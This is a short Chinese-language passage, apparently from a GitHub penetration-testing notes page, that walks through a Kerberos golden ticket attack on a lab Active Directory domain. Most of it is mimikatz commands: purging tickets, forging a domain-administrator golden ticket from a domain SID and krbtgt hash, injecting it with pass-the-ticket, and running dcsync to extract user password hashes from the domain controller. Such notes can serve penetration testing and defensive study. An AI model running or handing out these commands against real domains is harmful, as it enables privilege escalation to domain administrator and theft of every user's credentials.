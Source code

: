     6 简单过程:
        6.1 清空缓存证书
	    kerberos::purge  ( or klist purge)
        6.2 手动创建了一张域管理的黄金票据
	    kerberos::golden /admin:administrator /domain:demo.local /sid:S-1-5-21-1239069908-882060383-2558203358 /krbtgt:3f65c6984cbfebdc5f17986d07620afb /ticket:administrator.kirbi.bin
        6.3 使用这张票据 
	    kerberos::ptt administrator.kirbi.bin

![Golden_Ticket1](域渗透相关/Golden_Ticket1.png)

        6.4 然后我的低权限本地用户，就被提升到域管理权限
	    kerberos::list
        6.5 利用dcsync功能获取hash,通过DRSR(目录复制服务DRS远程协议)协议，从域控制器获取任何用户的hash
	    lsadump::dcsync /domain:demo.local /user:testwin10  (administrator / testwin7)